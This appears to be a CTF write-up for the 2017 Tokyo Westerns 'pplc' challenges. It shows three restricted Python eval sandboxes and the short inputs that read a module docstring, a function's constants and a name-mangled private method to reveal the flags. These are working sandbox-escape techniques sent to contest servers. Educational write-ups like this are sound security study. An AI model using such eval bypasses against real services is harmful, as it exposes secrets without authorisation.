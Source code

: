 ```yaml
---
layout: post
title: "pplc"
---
```

# pplc - tokyo westerns ctf 3rd 2017

The problem description is as follows:

yet another PLC challange as last year's?

private: nc ppc1.chal.ctf.westerns.tokyo 10000

local: nc ppc1.chal.ctf.westerns.tokyo 10001

comment: nc ppc1.chal.ctf.westerns.tokyo 10002

[restricted_python.7z](https://twctf2017.azureedge.net/attachments/restricted_python.7z-9fa38ea88ab7e0fad4f1d7b085dec649140fc6f20665a7a60753156f0b53437a)

these challenges exercised the ability to break out of 3 various restricted python `eval` calls, a nice primer on using builtin python functionality to bypass restrictions! i found that using [ptpython](https://github.com/jonathanslenders/ptpython) was pretty useful since it has tab completion and you are able to surf your history much easier. if you are completely new to python exploitation i recommend going through the picoctf python exploitation challenges, i went through the ones from 2013 and learned quite a lot i was able to use on this challenge. in particular one should know about the [dir](https://docs.python.org/2/library/functions.html#dir) builtin function which returns an alphabetized list of names comprising (some of) the attributes of the given object, and of attributes reachable from it.

## comment
### comment.py
```python
import sys
from restrict import Restrict

r = Restrict()
# r.set_timeout()

d = sys.stdin.read()
assert d is not None
d = d[:20]

import comment_flag
r.seccomp()

print eval(d)
```
### comment_flag.py
```
'''
Welcome to unreadable area!
FLAG is TWCTF{CENSORED}
'''
```

comment was super simple, checking the `__doc__` attribute reveals the flag. docstrings are a string literal that occurs as the first statement in a module, function, class, or method definition. such a docstring becomes the `__doc__` special attribute of that object, according to the [PEP article on Docstrings](https://www.python.org/dev/peps/pep-0257/).

```python
>>> import comment_flag
>>> dir(comment_flag)
['__builtins__', '__doc__', '__file__', '__name__', '__package__']
>>> comment_flag.__doc__
'\nWelcome to unreadable area!\nFLAG is TWCTF{CENSORED}\n'
```

pointing this at the server:

```
$ ncat ppc1.chal.ctf.westerns.tokyo 10002 
comment_flag.__doc__
<ctrl-d>
Welcome to unreadable area!
FLAG is TWCTF{very simple docstring}
```

## local
### local.py
```python
import sys
from restrict import Restrict

r = Restrict()
# r.set_timeout()

def get_flag(x):
    flag = "TWCTF{CENSORED}"
    return x

d = sys.stdin.read()
assert d is not None
d = d[:30]

r.seccomp()

print eval(d)
```

since the problem name implies the use of the `locals()` builtin python function i experimented based on this and through that i found the `func_code` object for `get_flag` and its constants attribute (`co_consts`, see [this blog](http://akaptur.com/blog/2013/11/15/introduction-to-the-python-interpreter-2/) for a brief overview of code objects).

```python
>>> def get_flag(x):
  2     flag = "TWCTF{CENSORED}"
  3     return x
>>> locals()['get_flag']
<function get_flag at 0x7fb348434398>
>>> dir(locals()['get_flag'])
['__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__doc__', '__format__', '__get__', '__getattribute__', '__globals__', '__hash__', '__init__', '__module__', '__name__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'func_closure', 'func_code', 'func_defaults', 'func_dict', 'func_doc', 'func_globals', 'func_name']
>>> locals()['get_flag'].func_code
<code object get_flag at 0x7fb34a7cf3b0, file "<stdin>", line 1>
>>> dir(locals()['get_flag'].func_code)
['__class__', '__cmp__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__le__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'co_argcount', 'co_cellvars', 'co_code', 'co_consts', 'co_filename', 'co_firstlineno', 'co_flags', 'co_freevars', 'co_lnotab', 'co_name', 'co_names', 'co_nlocals', 'co_stacksize', 'co_varnames']
>>> locals()['get_flag'].func_code.co_consts
(None, 'TWCTF{CENSORED}')
```

the only problem with solving this problem with `locals()` is i couldn't seem to figure out how to keep my code under 30 characters! what i had amounted to 40 characters, so i kept trying things - could i reference `get_flag` directly without using `locals()`? in fact i could - using the same attributes, even:

```python
>>> get_flag.func_code.co_consts
(None, 'TWCTF{CENSORED}')
```

pointing this at the server:
```
$ ncat ppc1.chal.ctf.westerns.tokyo 10001 
get_flag.func_code.co_consts
<ctrl-d>
(None, 'TWCTF{func_code is useful for metaprogramming}')
```

## private
### private.py
```python
import sys
from restrict import Restrict

r = Restrict()
# r.set_timeout()

class Private:
    def __init__(self):
        pass

    def __flag(self):
        return "TWCTF{CENSORED}"

p = Private()
Private = None

d = sys.stdin.read()
assert d is not None
assert "Private" not in d, "Private found!"
d = d[:24]

r.seccomp()

print eval(d)
```

private forces us not to use the string 'Private' in our code. the first thing i noticed was that using `dir` we could bypass writing 'Private':

```python
>>> dir(p)[0]
'_Private__flag'
```

using this and string append i found a string that would bypass the 'Private' restriction but it was too long:

```python
>>> "p.".__add__(dir(p)[0]).__add__("()")
'p._Private__flag()'
>>> eval("p.".__add__(dir(p)[0]).__add__("()"))
'TWCTF{CENSORED}'
>>> "p.".__add__(dir(p)[0]).__add__("()")
'p._Private__flag()'
>>> len('"p.".__add__(dir(p)[0]).__add__("()")')
37
```

surfing around the attributes of `Private` i found `__getattribute__` which is simply a method wrapper around the `getattr` builtin function. `getattr` gets a named attribute from an object; `getattr(x, 'y')` is equivalent to `x.y` according to the documentation. with `getattr` we are able to do the same as i was trying to do before but with less characters!

```python
>>> getattr(p, '_Private__flag')
<bound method Private.__flag of <__main__.Private instance at 0x7f99b1b1b440>>
>>> getattr(p, '_Private__flag')()
'TWCTF{CENSORED}'
>>> getattr(p, dir(p)[0])
<bound method Private.__flag of <__main__.Private instance at 0x7f99b1b1b440>>
>>> getattr(p, dir(p)[0])()
'TWCTF{CENSORED}'
```

pointing this at the server:

```
$ ncat ppc1.chal.ctf.westerns.tokyo 10000 
getattr(p, dir(p)[0])()
<ctrl-d>
TWCTF{__private is not private}
```
